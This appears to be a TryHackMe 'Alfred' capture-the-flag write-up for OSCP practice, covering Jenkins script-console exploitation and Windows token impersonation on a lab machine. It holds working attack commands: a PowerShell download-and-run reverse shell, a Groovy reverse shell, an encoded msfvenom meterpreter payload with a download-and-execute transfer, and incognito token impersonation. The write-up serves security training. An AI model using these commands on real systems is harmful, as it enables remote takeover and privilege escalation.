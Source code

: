 ```yaml
---
date: '2025-02-02T00:07:56+05:30'
draft: false
title: 'Alfred: TryHackMe OSCP Preparation'
slug: alfred-thm
tags: ["tryhackme", "windows", "jenkins", "token-impersonation", "oscp"]
category: writeups
showtoc: true
summary: A detailed walkthrough of the Alfred room on TryHackMe, demonstrating Jenkins exploitation, shell upgrades, and Windows token impersonation
description: Learn Windows privilege escalation through token impersonation, Jenkins exploitation, and shell manipulation in this OSCP-style walkthrough
---
```


# Alfred: TryHackMe Walkthrough

## Initial Enumeration

### Nmap Scan Results
```bash
nmap -sV -Pn 10.10.209.46

PORT     STATE SERVICE    VERSION
80/tcp   open  http      Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http      Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Key findings:
- IIS web server on port 80
- RDP on port 3389
- Jenkins (Jetty) on port 8080

## Initial Access

### Jenkins Exploitation

Two methods for obtaining reverse shell:

1. **PowerShell Method**:
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

2. **Groovy Script Method** (Easier):
Navigate to `$rhost:8080/script` and execute:
```groovy
Thread.start {
    String host="lhost";
    int port=4444;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
    while(!s.isClosed()){
        while(pi.available()>0)so.write(pi.read());
        while(pe.available()>0)so.write(pe.read());
        while(si.available()>0)po.write(si.read());
        so.flush();po.flush();
        Thread.sleep(50);
        try {p.exitValue();break;}catch (Exception e){}
    };
    p.destroy();s.close();
}
```

## Shell Upgrade

### Creating Meterpreter Shell
1. Generate payload:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

2. Transfer to target:
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

3. Execute on target:
```powershell
powershell -c Start-Process "shell.exe"
```

## Privilege Escalation

### Token Impersonation

#### Theory
- **LSASS.exe**: Manages account token assignment
- **Access Tokens**:
  - Primary: Generated on user logon
  - Impersonation: Allows process to use another user's token

#### Token Impersonation Levels
1. SecurityAnonymous
2. SecurityIdentification
3. SecurityImpersonation
4. SecurityDelegation

### Exploitation Steps

1. Check current privileges:
```bash
whoami /priv
```

2. Load incognito in Meterpreter:
```bash
load incognito
```

3. List available tokens:
```bash
list_tokens -g
```

4. Impersonate administrator token:
```bash
impersonate_token "BUILTIN\Administrators"
```

5. Migrate to stable process:
```bash
ps | grep services.exe
migrate <PID>
```

## Best Practices

1. **Initial Access**
   - Verify Jenkins version
   - Test script execution
   - Maintain session stability

2. **Shell Management**
   - Upgrade shells when possible
   - Use encoded payloads
   - Maintain multiple access methods

3. **Privilege Escalation**
   - Document token privileges
   - Choose stable processes
   - Verify successful migration

## Tools Used

1. [Nishang](https://github.com/samratashok/nishang)
   - PowerShell scripts
   - Reverse shells
   - Enumeration tools

2. Metasploit Framework
   - Payload generation
   - Session handling
   - Token manipulation

## References

1. [Nishang GitHub Repository](https://github.com/samratashok/nishang)
2. [Windows Token Impersonation](https://attack.mitre.org/techniques/T1134/)
3. [Jenkins Security](https://www.jenkins.io/security/)
4. [Microsoft Access Tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
